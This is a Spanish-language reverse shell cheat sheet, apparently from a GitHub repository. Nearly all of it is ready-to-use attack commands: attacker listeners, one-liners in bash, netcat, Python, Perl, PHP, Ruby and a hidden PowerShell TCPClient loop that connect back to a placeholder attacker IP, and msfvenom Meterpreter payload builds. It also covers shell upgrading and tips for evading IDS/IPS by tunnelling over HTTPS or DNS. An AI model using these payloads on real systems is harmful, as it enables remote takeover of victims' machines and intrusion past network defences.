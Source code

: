 # Reverse Shell Cheat Sheet

## 1. Concepto Rápido
- **Reverse Shell:** La víctima inicia conexión hacia el atacante y le envía su shell.
- Ideal cuando la víctima está detrás de **NAT** o firewall.
- Más usada que la bind shell en entornos reales.

---

## 2. Preparar el Listener (Atacante)
```bash
# Linux (Netcat tradicional)
nc -lvp 4444

# Netcat Nmap (ncat)
ncat -lvp 4444

# Metasploit multi/handler
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <IP_atacante>
set LPORT 4444
exploit
```

---

## 3. Comandos Reverse Shell Linux → Linux
```bash
# Netcat (GNU)
nc <IP_atacante> 4444 -e /bin/bash

# Netcat sin -e (bash redirection)
rm /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc <IP_atacante> 4444 > /tmp/f

# Bash pura
bash -i >& /dev/tcp/<IP_atacante>/4444 0>&1

# Python
python3 -c 'import socket,os,pty; s=socket.socket(); s.connect(("<IP_atacante>",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); pty.spawn("/bin/bash")'

# Perl
perl -e 'use Socket;$i="<IP_atacante>";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));connect(S,sockaddr_in($p,inet_aton($i)));open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");'
```

---

## 4. Comandos Reverse Shell Windows → Linux
```bash
# Netcat (Windows)
nc.exe <IP_atacante> 4444 -e cmd.exe

# PowerShell (One-liner)
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "New-Object System.Net.Sockets.TCPClient('<IP_atacante>',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"

# PowerShell Base64
powershell -EncodedCommand <cadena_base64>

# Con msfvenom
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP_atacante> LPORT=4444 -f exe > reverse.exe
```

---

## 5. Payloads Comunes con msfvenom
```bash
# Windows x86 Meterpreter Reverse TCP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP_atacante> LPORT=4444 -f exe > reverse.exe

# Windows x64
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP_atacante> LPORT=4444 -f exe > reverse64.exe

# Linux x86
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP_atacante> LPORT=4444 -f elf > reverse.elf

# PHP reverse shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=<IP_atacante> LPORT=4444 -f raw > shell.php
```

---

## 6. Reverse Shell por Lenguajes
| Lenguaje   | Comando/Código rápido |
|------------|-----------------------|
| Bash       | `bash -i >& /dev/tcp/IP/PORT 0>&1` |
| Python     | Script socket + pty   |
| Perl       | Script con `Socket`   |
| PHP        | `php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'` |
| PowerShell | TCPClient loop        |
| Ruby       | `ruby -rsocket -e 'f=TCPSocket.open("IP",PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'` |

---

## 7. Consejos Prácticos
- Si la shell es muy básica, mejorarla con:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
```
- Cambiar puertos si hay filtrado.
- Encapsular en HTTPS o DNS si hay IDS/IPS.

---

## 8. Resumen Rápido
**Listener (atacante):**
```bash
nc -lvp 4444
```
**Víctima (ejecuta payload):**
```bash
nc <IP_atacante> 4444 -e /bin/bash
```
**Uso en Metasploit:**
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <IP_atacante>
set LPORT 4444
exploit
```

